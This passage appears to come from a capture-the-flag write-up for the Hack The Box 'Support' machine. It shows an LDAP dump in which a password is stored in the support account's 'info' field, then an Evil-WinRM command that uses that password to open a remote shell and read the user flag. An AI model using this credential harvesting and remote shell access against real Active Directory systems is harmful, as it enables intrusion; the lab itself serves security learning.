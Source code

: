 ```text-plain
uSNCreated: 12617
info: Ironside47pleasure40Watchful
memberOf: CN=Shared Support Accounts,CN=Users,DC=support,DC=htb
memberOf: CN=Remote Management Users,CN=Builtin,DC=support,DC=htb
uSNChanged: 12630
company: support
streetAddress: Skipper Bowles Dr
name: support
objectGUID:: CqM5MfoxMEWepIBTs5an8Q==
userAccountControl: 66048
badPwdCount: 0
codePage: 0
countryCode: 0
badPasswordTime: 0
lastLogoff: 0
lastLogon: 0
pwdLastSet: 132982099209777070
primaryGroupID: 513
objectSid:: AQUAAAAAAAUVAAAAG9v9Y4G6g8nmcEILUQQAAA==
accountExpires: 9223372036854775807
logonCount: 0
sAMAccountName: support
sAMAccountType: 805306368
objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=support,DC=htb
dSCorePropagationData: 20220528111201.0Z
dSCorePropagationData: 16010101000000.0Z
```

Shell Access Using EvilWinRM
----------------------------

Lets try that credential out with the support account using EvilWinRM on our target. Hey, it works! We now have shell access on the target as the support account.

```text-plain
*Evil-WinRM* -i support.htb -u support -p 'Ironside47pleasure40Watchful'

pwd

Path
----
C:\Users\support\Documents
```

 The user flag can be found at ‘C:\\Users\\support\\Desktop\\flag.txt’

```text-plain
cat user.txt
HTB{********************************}
```

AD Enumeration With Sharphound/Bloodhound
-----------------------------------------
